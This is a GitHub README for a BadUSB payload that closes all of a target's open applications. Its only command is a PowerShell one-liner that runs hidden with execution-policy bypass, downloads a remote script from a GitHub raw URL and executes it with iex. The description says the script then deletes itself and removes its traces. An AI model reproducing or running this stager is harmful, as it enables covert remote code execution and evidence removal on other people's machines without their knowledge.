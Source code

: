 # Close All Applications - BadUSB ✅

A script used to close all target open applications.

**YouTube Video**: https://youtube.com/shorts/fbXgI-4ABhU

**Category**: Execution

<div align=center>

<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/logo-repository-2_0.gif?token=GHSAT0AAAAAACJCV62UACYVZAHZREEX64GEZJVSP5Q" width="600" /><br>
<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/DISCLAIMER.png?token=GHSAT0AAAAAACJCV62VALXFXVMURW4QNGGOZJVRPVQ" width="600" />

</div>

## Description

A script used to close all target open applications.

Opens PowerShell hidden, download a Python script, execute it, remove Python script downloaded, removes all taraces left behind.

## Getting Started

### Dependencies

* Internet Connection
* Windows 10,11

### Executing program

* Plug in your device

All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/Windows/CloseAllApps/closeAllApps.ps1?token=GHSAT0AAAAAACJCV62V5JRTVENW2PIGRDAKZJVSH5A').Content"
```





## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
  </tr>
</table>
</div>
